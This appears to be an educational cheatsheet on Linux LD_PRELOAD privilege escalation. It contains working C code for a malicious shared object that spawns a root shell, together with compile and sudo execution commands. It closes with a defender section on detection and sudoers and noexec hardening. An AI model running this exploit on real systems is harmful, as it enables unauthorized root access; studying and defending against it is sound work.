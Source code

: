## 👨‍🍳 Cheatsheet: Shared Object (`LD_PRELOAD`) Injection

Shared objects (`.so` files) in Linux are like DLLs in Windows—libraries of code that programs can load and use at runtime. `LD_PRELOAD` is a powerful environment variable that tells the dynamic linker to load a user-specified shared object **before** any other library. If a program with elevated privileges (like an SUID binary or a command run with `sudo`) is executed while this variable is set, it can be forced to load and run the attacker's malicious code first.

### ## What to Look For (Reconnaissance)

The primary way to exploit this is through `sudo`, so the first step is to check its configuration.

* **Check `sudo` privileges for `env_keep`:**
    The most common vector is when the `/etc/sudoers` file is configured to preserve the `LD_PRELOAD` variable for the user.
    ```bash
    sudo -l
    ```
    Look for the line `env_keep+=LD_PRELOAD` in the output. This is a critical misconfiguration.
    

* **Find SUID binaries:**
    On older or less secure systems, an SUID binary might not properly sanitize the environment variables it inherits. An attacker can look for SUID files and test if they respect `LD_PRELOAD`. This is less common on modern systems because the dynamic linker has built-in protections against this for SUID executables.

---

### ## Exploitation Workflow

The process involves creating a malicious shared object and forcing a privileged program to load it.

1.  **Write the Malicious C Code:**
    Create a C file (e.g., `shell.c`) that will be compiled into a shared object. The code will typically execute a command to spawn a shell. Using a `constructor` function ensures the code runs as soon as the library is loaded.
    ```c
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>

    // This function is executed when the library is loaded
    __attribute__((constructor))
    void injected_function() {
        setuid(0); // Set user ID to root
        setgid(0); // Set group ID to root
        system("/bin/bash -p");
    }
    ```

2.  **Compile into a Shared Object:**
    Use `gcc` to compile the C file into a `.so` file.
    ```bash
    # -shared: Creates a shared library
    # -fPIC: Generates Position-Independent Code, required for shared libraries
    gcc -shared -fPIC -o /tmp/shell.so shell.c
    ```

3.  **Execute with `LD_PRELOAD`:**
    Run a command allowed by `sudo` while setting the `LD_PRELOAD` variable to point to your malicious library. It can be almost any command, as the code will execute before the program's `main` function is even called.
    ```bash
    sudo LD_PRELOAD=/tmp/shell.so /usr/sbin/apache2
    ```

4.  **Get Root:**
    If successful, you will immediately be dropped into a root shell.
    ```bash
    # whoami
    root
    ```

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **Process Auditing:** Monitor process execution and library loading. A privileged process loading a shared object from a non-standard, user-writable directory like `/tmp` or `/home/user` is a major red flag. Tools like `auditd` can be configured to watch for this.
* **Log Analysis:** Review `sudo` logs for commands being executed with suspicious environment variables.

#### **How to Prevent `LD_PRELOAD` Abuse**

* **Secure `/etc/sudoers` Configuration:** This is the most important defense. The default `sudo` configuration (`env_reset`) is secure and scrubs the `LD_PRELOAD` variable. **Never** add `LD_PRELOAD` to the `env_keep` directive. Audit your `sudoers` file to ensure this is not the case.
    ```
    # Good (Default):
    Defaults env_reset

    # Bad:
    Defaults env_keep += "LD_PRELOAD"
    ```

* **Use the `noexec` Mount Option:** Harden your system by mounting user-writable directories like `/tmp`, `/var/tmp`, and `/dev/shm` with the `noexec` flag. This prevents the execution of any binary from these locations, which can disrupt this attack.
    * **Example `/etc/fstab` entry:**
        ```
        tmpfs   /tmp   tmpfs   defaults,rw,nosuid,nodev,noexec,relatime   0  0
        ```

* **Principle of Least Privilege:** Only grant `sudo` rights for the specific commands a user needs. Avoid granting broad permissions that could be used as a vector for this attack.
